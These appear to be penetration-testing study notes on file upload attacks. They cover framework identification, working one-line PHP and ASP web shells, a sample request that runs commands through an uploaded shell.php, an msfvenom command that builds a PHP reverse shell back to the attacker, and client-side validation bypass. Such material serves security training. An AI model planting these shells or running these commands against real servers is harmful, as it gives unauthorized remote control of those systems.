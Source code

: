 

## dentifying Web Framework

A web shell has to be written in the same programming language that runs the web server, as it runs platform-specific functions and commands to execute system commands on the back-end server, making web shells non-cross-platform scripts. So, the first step would be to identify what language runs the web application.


This is usually relatively simple, as we can often see the web page extension in the URLs, which may reveal the programming language that runs the web application. However, in certain web frameworks and web languages, Web Routes are used to map URLs to web pages, in which case the web page extension may not be shown. Furthermore, file upload exploitation would also be different, as our uploaded files may not be directly routable or accessible.


One easy method to determine what language runs the web application is to visit the /index.ext page, where we would swap out ext with various common web extensions, like php, asp, aspx, among others, to see whether any of them exist.



## Web Shells

[Seclists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)

with PHP web applications, we can use the system() function that executes system commands and prints their output, and pass it the cmd parameter with $_REQUEST['cmd'], as follows:

```<?php system($_REQUEST['cmd']); ?>```


If we write the above script to shell.php and upload it to our web application, we can execute system commands with the ?cmd= GET parameter (e.g. ?cmd=id), as follows: 

```http://SERVER_IP:PORT/uploads/shell.php?cmd=id```

For .NET web applications, we can pass the cmd parameter with request('cmd') to the eval() function, and it should also execute the command specified in ?cmd= and print its output, as follows:

```<% eval request('cmd') %>```


    

## Reverse Shell



msfvenom can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for PHP

```$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php```




## Client-Side Validation


    As mentioned earlier, to bypass these protections, we can either modify the upload request to the back-end server, or we can manipulate the front-end code to disable these type validations.


    When we select an image, we see that it gets reflected as our profile image, and when we click on Upload, our profile image gets updated and persists through refreshes. This indicates that our image was uploaded to the server, which is now displaying it back to us
```